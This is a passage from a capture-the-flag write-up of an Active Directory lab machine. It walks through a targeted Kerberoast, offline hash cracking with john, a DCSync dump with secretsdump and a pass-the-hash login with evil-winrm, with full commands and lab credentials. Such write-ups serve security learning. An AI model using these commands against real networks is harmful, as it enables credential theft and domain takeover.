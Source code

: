 Once cracked, we see that there are 3 passwords inside the password manager.

![Pic]({{ '/assets/img/administrator/10pic.png' | relative_url }}){: .center-image }

## Privilege Escalation

In my case I saved these passwords with their usernames in the credentials.txt file. The Emily's credentials allow us to connect to the machine via winrm as we saw in BloodHound. Also BloodHound show us in the "Find Shortest Path to Domain Admins" that Emily has the privilege "GenericWrite" over Ethan, which according to BloodHound allow us to perform a Targeted Kerberoast.

![Pic]({{ '/assets/img/administrator/11pic.png' | relative_url }}){: .center-image }

To exploit this I will use the tool called [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast/blob/main/targetedKerberoast.py). Following his documentation we just need to indicate the domain, username and password of the user with this privilege.

```sh
python3 targetedKerberoast.py -d administrator.htb -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```

But this command won't work until we synchronize our clock with the victim machine. To do this we need to run the next commands:

```sh
sudo su
timedatectl set-ntp off
rdate -n 10.10.11.42 (ip de la máquina)
```

And if we run the command again it will display an output as the following:

![Pic]({{ '/assets/img/administrator/12pic.png' | relative_url }}){: .center-image }

To crack this TGS with john we are going to use the next command:

```sh
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt tgs.txt
```

After getting the plaintext password we can see that Ethan is not member of Remote Management Users, so we can't connect to the machine. However we have enough privileges to do a DCSync attack, we can use the tool **secretsdump.py** of impacket to dump the ntlm hashes.

```sh
python3 secretsdump.py 'administrator/ethan:limpbizkit@10.10.11.42' -just-dc
```

![Pic]({{ '/assets/img/administrator/13pic.png' | relative_url }}){: .center-image }

Finally we can try to crack these hashes but evil-winrm allow us to connect providing the nt hash (Pass The Hash)


```sh
evil-winrm -i 10.10.11.42 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```
